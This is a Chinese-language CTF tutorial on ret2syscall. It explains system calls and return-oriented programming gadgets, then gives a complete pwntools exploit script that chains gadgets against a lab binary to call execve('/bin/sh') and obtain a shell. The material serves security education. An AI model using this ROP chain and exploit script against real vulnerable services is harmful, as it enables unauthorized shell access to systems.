










# CTF教程：P36：ret2syscall

## 概述

在本节课中，我们将学习一种名为“返回导向编程”的攻击技术，并重点探讨其最基础的形式——`ret2syscall`。我们将了解如何在没有现成后门函数或shellcode的情况下，通过组合程序自身已有的代码片段来执行系统调用，从而获取目标系统的shell。

## 从简单溢出到复杂控制

上一节我们介绍了通过覆盖返回地址，直接跳转到目标代码的简单攻击方法。本节中我们来看看，当程序中没有一步到位的“后门”时，如何通过更精细的控制来达成攻击目的。

既然我们能通过溢出控制一次返回地址，就相当于控制了程序的执行流。但如果无法直接跳转到能调用`system("/bin/sh")`的地方，我们就需要一种更强大的工具——返回导向编程。

返回导向编程本质上是一个多次篡改EIP或RIP寄存器，使其指向我们精心选择的一系列地址的过程。

## 什么是系统调用？

要进行`ret2syscall`，首先需要理解什么是系统调用。

用户程序原则上不应直接接触硬件。所有硬件都由操作系统管理，并以操作系统规定的接口形式提供给用户。系统调用就是操作系统提供给用户操作硬件的编程接口。

这个接口可以被链接库封装成函数形式。如果你是汇编程序员，也可以直接使用`int 0x80`（x86）或`syscall`（x64）指令进行系统调用。

系统调用的实现是操作系统内核空间里的一段代码。用户编写的程序代码在`.text`、`.data`、`.bss`等段，载入内存后操作系统会为其创建栈、堆、共享库等段，但这些都属于用户态。能直接接触硬件的代码都在地址空间最高处的内核空间里。

例如，`printf("hello world")`这行代码的背后，实际上是动态链接库包装好的函数。`printf`最终会向操作系统申请一次`write`系统调用，由内核空间里的`sys_write`函数完成向屏幕输出字符串的工作。

## 系统调用的汇编层面

以`execve`系统调用为例，在x86架构下，其汇编层面的调用过程如下：

1.  将系统调用号存入`EAX`寄存器（`execve`的系统调用号为11，即`0xb`）。
2.  将第一个参数（例如`"/bin/sh"`的地址）存入`EBX`寄存器。
3.  将第二个参数存入`ECX`寄存器（通常为0）。
4.  将第三个参数存入`EDX`寄存器（通常为0）。
5.  执行`int 0x80`指令。

对应的汇编代码片段如下：
```assembly
mov eax, 0xb
mov ebx, address_of_bin_sh
mov ecx, 0
mov edx, 0
int 0x80
```
我们的攻击目标就是让目标程序执行这样一段代码。但问题在于，目标程序中很可能没有这样一段连续的、现成的汇编代码。

## 引入返回导向编程

当程序中没有我们需要的连续代码时，返回导向编程技术便派上了用场。

ROP的核心思想是：我们没有连续的代码，但可以利用程序中已有的一段段以`ret`指令结尾的小代码片段（称为`gadget`），将它们像链条一样串联起来，最终达到执行连续代码的效果。

一个典型的`gadget`格式是`pop register; ret`。它执行两个操作：将栈顶的值弹出到指定寄存器，然后通过`ret`指令将下一个栈顶值弹出作为下一条指令的地址（即跳转到下一个`gadget`）。

通过精心构造栈上的数据（即我们的攻击载荷`payload`），我们可以控制程序依次执行多个`gadget`，逐步设置好各个寄存器的值，最后跳转到`int 0x80`指令的地址，完成系统调用。

## 实战：ret2syscall题目分析



现在，我们来看一道实际的CTF题目，应用`ret2syscall`技术。



首先检查程序保护措施：
```bash
checksec ret2syscall
```
发现栈不可执行（NX enabled），因此无法直接注入shellcode。同时，程序是静态链接的，这意味着其二进制文件中包含了大量库函数代码，为我们寻找可用的`gadget`提供了丰富资源。

使用反汇编工具（如IDA）分析程序，在`main`函数中发现一个明显的栈溢出漏洞：
```c
char v4[100]; // [esp+1Ch] [ebp-6Ch]
gets(v4); // 向v4读入任意长度字符串，造成栈溢出
```
我们的目标是利用这个溢出，构造ROP链来执行`execve("/bin/sh", 0, 0)`。

## 构造ROP链

以下是构造ROP链的步骤：



1.  **计算偏移**：首先确定从缓冲区`v4`到函数返回地址的偏移量。通过动态调试（如GDB）可以计算出需要填充112字节的垃圾数据才能覆盖到返回地址。
2.  **寻找gadget**：使用`ROPgadget`工具在二进制文件中搜索我们需要的代码片段。
    *   我们需要一个`pop eax; ret`来设置系统调用号。
    *   需要一个能设置`ebx`、`ecx`、`edx`的gadget，例如`pop edx; pop ecx; pop ebx; ret`。
    *   需要`int 0x80`指令的地址。
    *   需要字符串`"/bin/sh"`的地址。
3.  **构造payload**：根据找到的gadget地址和参数，按执行顺序在栈上布置数据。

最终的payload结构如下（地址均为示例）：
```
[112字节垃圾数据]
[pop_eax_ret地址]   // 覆盖原返回地址，控制流跳转至此
[0xb]              // pop eax的参数，系统调用号
[pop_edx_ecx_ebx_ret地址] // 上一个gadget的ret跳转至此
[0x0]              // pop edx的参数
[0x0]              // pop ecx的参数
[地址_of_bin_sh]   // pop ebx的参数
[int_0x80地址]     // 最后一个gadget的ret跳转至此，执行系统调用
```



## 编写攻击脚本

使用Python的`pwntools`库编写自动化攻击脚本：
```python
from pwn import *

context(arch='i386', os='linux')

# 连接远程服务器或本地进程
# p = remote('目标IP', 端口号)
p = process('./ret2syscall')

# 使用ELF模块方便地获取地址
elf = ELF('./ret2syscall')
bin_sh_addr = next(elf.search(b'/bin/sh')) # 搜索字符串地址
int80_addr = 0x08049421 # int 0x80指令地址，通过反汇编获得
pop_eax_ret = 0x080bb196 # gadget地址，通过ROPgadget获得
pop_edx_ecx_ebx_ret = 0x0806eb90 # gadget地址，通过ROPgadget获得

# 构造payload
offset = 112
payload = flat([
    b'A' * offset,
    pop_eax_ret,
    0xb,               # execve系统调用号
    pop_edx_ecx_ebx_ret,
    0x0,               # edx
    0x0,               # ecx
    bin_sh_addr,       # ebx
    int80_addr
])





p.sendline(payload)
p.interactive() # 切换到交互模式，获得shell
```





## 总结



本节课我们一起学习了返回导向编程的基础——`ret2syscall`攻击技术。我们了解到，当无法直接跳转到目标函数时，可以通过组合程序自身已有的、以`ret`结尾的小代码片段（gadget），来逐步设置执行环境，最终实现系统调用。

关键点在于：
1.  理解系统调用的汇编实现方式。
2.  掌握ROP的基本原理：通过控制栈内容来链式执行gadget。
3.  学会使用工具（如`ROPgadget`、`pwntools`）寻找gadget和构造payload。
4.  能够分析漏洞并编写完整的攻击脚本。



`ret2syscall`是ROP攻击的入门，后续更复杂的ROP攻击（如`ret2libc`）都建立在此基础之上。